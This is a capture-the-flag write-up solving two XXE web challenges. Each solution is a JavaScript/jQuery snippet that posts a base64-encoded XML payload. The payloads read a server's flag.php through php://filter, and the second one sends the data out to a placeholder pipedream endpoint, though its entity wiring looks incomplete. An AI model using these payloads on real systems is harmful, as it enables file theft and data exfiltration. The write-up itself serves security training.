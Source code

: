 # XXE

## XXE1 [https://xxe1.secu-web.blackfoot.dev/]

### Description

XML External Entity (XXE) is a vulnerability that allows an attacker to read files on the server, or even perform SSRF attacks, through the use of XML entities. This vulnerability is often found in web applications that parse XML input.
The website offers a simple user input which get converted into b64 encoded XML and then displayed back to us.
The goal for getting the flag on XXE is to change the XML data sent to the server.
BY using vulnerabilities on the "ENTITY" element,we can insert custom functionality like returning a file flag.

### Solution

The server is already printing the XML data sent to it, so we can just modify the data to include an entity that will read the flag file.
We can modify the source code that is doing the sending, as shown below:
```
const message = "d"
const xml_payload = `<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php" >]>
<document>
 <message>&xxe;</message>
 </document>`;

    let g = $.ajax({
      url: "index.php",
      type: "POST",
      data: { xml: btoa(xml_payload) },
      success: response => {
        document.getElementById("error").text = response;
          console.log(g.getAllResponseHeaders(),"\n",response)
      }
    });
```

## XXE2 [https://xxe2.secu-web.blackfoot.dev/]

### Description

Same as XXE1, but we don't have conventient printing of the xml data return, so we need to find a way to get the base64 encoded data to a place we can see it.

### Solution

Similar script to XXE1, but now we have b64 exfil to a public endpoint.

```
const message = "d"
const xml_payload =
      `<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php" >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=https://YOUR_URL.m.pipedream.net">
%file;
]>
<document>
 <message>&xxe;</message>
 </document>    `;

    let g = $.ajax({
      url: "index.php",
      type: "POST",
      data: { xml: btoa(xml_payload) },
      success: response => {
        document.getElementById("error").text = response;
          console.log(g.getAllResponseHeaders(),"\n",response)
      }
    });
```

#### Screenshots
![alt text](https://github.com/kodoshi/blackfoot-web-ctf/blob/main/images/xxe_1.png?raw=true)
![alt text](https://github.com/kodoshi/blackfoot-web-ctf/blob/main/images/xxe_2.png?raw=true)
![alt text](https://github.com/kodoshi/blackfoot-web-ctf/blob/main/images/xxe_3.png?raw=true)
![alt text](https://github.com/kodoshi/blackfoot-web-ctf/blob/main/images/xxe_4.png?raw=true)

#### Resources
 - https://www.pipedream.com/